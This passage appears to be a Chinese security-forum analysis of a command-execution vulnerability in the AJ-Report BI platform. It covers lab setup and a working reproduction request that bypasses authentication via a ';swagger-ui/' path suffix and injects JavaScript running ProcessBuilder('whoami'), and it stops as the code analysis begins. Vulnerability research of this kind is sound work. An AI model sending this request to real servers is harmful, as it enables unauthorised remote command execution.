 AJ-Report代码执行漏洞分析
=================

AJ-Report是全开源的一个BI平台，`DataSetParamController` 中`verification`方法未对传入的参数进行过滤，可以执行JavaScript函数，导致命令执行漏洞。

环境搭建
----

将源码下并使用IDEA打开

git clone <https://gitee.com/anji-plus/report.git>

![image-20240504154116752](https://shs3.b.qianxin.com/attack_forum/2024/05/attach-27d6f1cf3afc6fdee647c98beecbbf217eecc8c4.png)

### 配置mysql

创建数据 aj\_report ，数据库sql文件在resources/db.migration 目录下

![image-20240504154241700](https://shs3.b.qianxin.com/attack_forum/2024/05/attach-369b07230fc3556d7a076abae0a484932a4e5c63.png)

配置文件存储路径

![image-20240504154329937](https://shs3.b.qianxin.com/attack_forum/2024/05/attach-4fcbd46bbc026b4519cf2e0d9c78d8eff88e2b8e.png)

漏洞复现
----

```php
POST /dataSetParam/verification;swagger-ui/ HTTP/1.1  
Host: 192.168.0.100:9095  
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36  
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,\*/\*;q=0.8,application/signed-exchange;v=b3;q=0.7  
Accept-Encoding: gzip, deflate, br  
Accept-Language: zh-CN,zh;q=0.9  
Content-Type: application/json;charset=UTF-8  
Connection: close  
​  
{"sampleItem":"1","validationRules":"function verification(data){a = new java.lang.ProcessBuilder(\\"whoami\\").start().getInputStream();r=new java.io.BufferedReader(new java.io.InputStreamReader(a));ss='';while((line = r.readLine()) != null){ss+=line};return ss;}"}
```

![image-20240504155259256](https://shs3.b.qianxin.com/attack_forum/2024/05/attach-477bb6e64fe5c3bd95c5d05d501e12551470709d.png)

![image-20240504155319624](https://shs3.b.qianxin.com/attack_forum/2024/05/attach-2909672ae6ade71ea975f824bf0d340d7e08c2c8.png)

代码分析
----

### 漏洞路径

